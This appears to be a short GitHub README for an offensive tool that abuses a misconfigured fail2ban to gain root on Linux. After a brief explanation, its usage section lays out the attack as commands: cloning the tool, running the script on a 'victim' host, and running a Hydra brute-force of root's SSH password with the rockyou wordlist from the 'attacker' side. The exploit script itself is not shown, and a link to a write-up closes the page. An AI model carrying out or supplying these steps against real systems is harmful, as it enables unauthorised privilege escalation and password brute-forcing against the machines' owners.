 
# Privilege Escalation via fail2ban
In Linux, fail2ban is mostly used to protect the SSH service. 
If the daemon detects several unsuccessful ssh login attempts, it executes a command that blocks the IP address.
So misconfigurations can lead to privilege escalation.

![alt text](https://github.com/rvizx/fail2ban/blob/main/image.png?raw=true)

# Usage
```
git clone https://github.com/rvizx/fail2ban
```

@victim
```
chmod +x fail2ban
./fail2ban
```

@attacker
```
hydra <ip-addr> -l root -P /usr/share/wordlists/rockyou.txt ssh
```

# Notes
https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7
